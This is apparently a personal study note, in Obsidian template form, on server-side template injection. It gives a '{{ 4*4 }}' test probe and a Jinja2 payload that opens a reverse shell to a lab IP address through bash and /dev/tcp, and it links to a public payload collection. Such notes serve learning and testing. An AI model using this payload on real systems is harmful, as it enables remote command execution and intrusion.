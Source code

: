 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SSTI]]  
___

## Description:  

Enter `{{ 4*4 }}` in a field to see if it is vulnerable.

This can lead to a rev shell
```
{{ config['RUNCMD']('bash -i >& /dev/tcp/10.10.14.23/8000 0>&1',shell=True) }}
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:25 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
